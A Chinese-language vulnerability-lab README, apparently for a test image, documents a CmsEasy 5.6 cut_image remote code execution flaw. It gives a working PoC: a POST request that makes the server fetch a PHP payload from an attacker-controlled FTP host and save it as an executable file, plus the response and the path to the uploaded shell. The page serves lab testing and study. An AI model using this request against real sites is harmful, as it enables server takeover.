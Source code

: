 ## CmsEasy 5.6  cut_image 代码执行漏洞

测试镜像

* src/cmseasy/5.6

影响版本

* CmsEasy <= 5.6

参考链接

* [CmsEasy < 5.6 20161012 cut_image 代码执行漏洞](https://github.com/Medicean/VulApps/tree/master/c/cmseasy/1)
* [CmsEasy前台无限制GetShell](https://xz.aliyun.com/t/416)
* [CmsEasy前台无限制GetShell【Getshell的补充说明】](https://xz.aliyun.com/t/365)

Poc

使用`cut_image代码执行漏洞`目录下的生成脚本`jpg_payload.php`生成payload，或直接使用已生成的`poc_phpinfo_700x1120.png`文件。

测试方法：

将生成的payload上传至攻击者的ftp服务器，并发起 POST 请求，地址为：

```
http://127.0.0.1/index.php?case=tool&act=cut_image
```

POST data:

```
pic=1ftp://攻击者FTP地址/phpinfo.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120
```

成功会返回如下形式的数据：

```
{"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}
```

根据返回的文件名，访问上传成功后的php文件

`http://127.0.0.1/upload/images/201612/148159258747.php`


